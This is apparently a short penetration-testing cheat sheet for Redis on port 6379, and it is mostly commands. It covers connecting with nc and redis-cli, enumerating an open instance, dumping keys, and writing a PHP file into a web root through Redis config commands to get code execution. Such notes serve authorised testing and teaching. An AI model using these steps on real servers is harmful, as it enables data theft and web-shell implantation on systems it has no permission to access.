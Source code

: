 # Port 6379 - Redis

## Banner Grabbing

```bash
nc -vn 10.10.10.10 6379
redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools
```

The first command you could try is info. It may return output with information of the Redis instance or something like the following is returned:

```powershell
-NOAUTH Authentication required.
```

In this last case, this means that you need valid credentials to access the Redis instance.

If the Redis instance is accepting anonymous connections or you found some valid credentials, you can start enumerating the service with the following commands:

```bash
INFO
[ ... Redis response with info ... ]
client list
[ ... Redis response with connected clients ... ]
CONFIG GET *
[ ... Get config ... ]
```

## Dumping Database

```bash
SELECT 1
[ ... Indicate the database ... ]
KEYS * 
[ ... Get Keys ... ]
GET <KEY>
[ ... Get Key ... ]
```

## Redis RCE

You must know the path of the Web site folder:

```bash
root@kali: redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```
